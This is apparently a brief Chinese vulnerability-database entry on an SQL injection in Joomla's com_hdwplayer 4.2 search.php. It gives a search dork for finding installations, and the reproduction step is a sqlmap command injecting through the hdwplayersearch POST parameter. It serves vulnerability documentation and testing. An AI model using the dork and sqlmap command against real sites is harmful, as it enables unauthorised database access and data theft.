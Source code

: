 ```yaml
---
title: "Joomla! com_hdwplayer 4.2 - 'search.php' sql注入"
id: zhfly3001
---
```


# Joomla com_hdwplayer 4.2 - 'search.php' sql注入

## 一、漏洞简介

关键字:inurl:"index.php?option=com_hdwplayer"

## 二、漏洞影响

com_hdwplayer 4.2

## 三、复现过程

```
python ./sqlmap.py -u "http://127.0.0.1/joomla/index.php" --method=POST --random-agent --data "option=com_hdwplayer&view=search&hdwplayersearch=xxx" --level=5 --risk=3 --dbms=mysql -p hdwplayersearch 
```

## 参考链接

> https://www.exploit-db.com/exploits/48242